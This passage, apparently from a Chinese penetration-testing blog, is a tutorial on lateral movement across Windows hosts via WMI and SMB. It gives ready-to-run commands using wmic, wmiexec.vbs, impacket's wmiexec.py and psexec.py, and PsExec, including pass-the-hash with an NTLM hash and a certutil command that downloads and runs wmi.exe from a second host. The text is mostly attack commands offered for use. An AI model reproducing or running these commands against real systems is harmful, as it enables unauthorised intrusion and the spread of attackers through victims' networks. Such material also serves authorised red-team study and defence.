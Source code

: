 WMI全称“windows管理规范”，从win2003开始一直存在。它原本的作用是方便管理员对windows主机进行管理。因此在内网渗透中，我们可以使用WMI进行横向移动。

#### 2.1利用条件

> 1、WMI服务开启，端口135，默认开启。  
> 2、防火墙允许135、445等端口通信。  
> 3、知道目标机的账户密码。

#### 2.2wmic

> wmic /node:191.168.52.136 /user:xxxx /password:xxxxx process call create “cmd.exe /c [ipconfig](https://so.csdn.net/so/search?q=ipconfig&spm=1001.2101.3001.7020)\>d:\\result.txt”  
> 无需上传第三方软件，利用系统内置程序,单命令执行，执行后无结果回显

![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153137962.png)

#### 2.3 cscript

cscript //nologo wmiexec.vbs /shell 191.168.52.136

需上传wmiexec.vbs然后进入该服务器内进行执行![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153140495.png)

#### 2.4 wmiexec

> 1.执行命令：  
> python wmiexec.py ./:@192.168.52.136 “cmd.exe /c certutil -urlcache -split -f http://192.168.52.137:8090/wmi.exe C:\\wmi.exe”  
> 2.用hash的方式：  
> python wmiexec.py -hashes :36ec9d73422e1bf53b84fdb16a8e4198 ./qaxnb@192.168.52.136 “whoami”  
> 第三方软件 (交互式&单执行)，容易被杀

![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153144676.png)  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153148333.png)

### 3.[smb](https://so.csdn.net/so/search?q=smb&spm=1001.2101.3001.7020)横向

利用SMB服务可以通过明文或hash传递来远程执行。

##### 3.1 利用条件

> 1、445端口开放  
> 2、知道账号密码

##### 3.2 psexec（微软官方工具）

PsExec64.exe \\192.168.52.136 -u -p -s cmd
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153153599.png)

##### 3.3 psexec（impacket工具）

python psexec.py -hashes :36ec9d73422e1bf53b84fdb16a8e4198 ./qaxnb@192.168.52.136  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153157098.png)
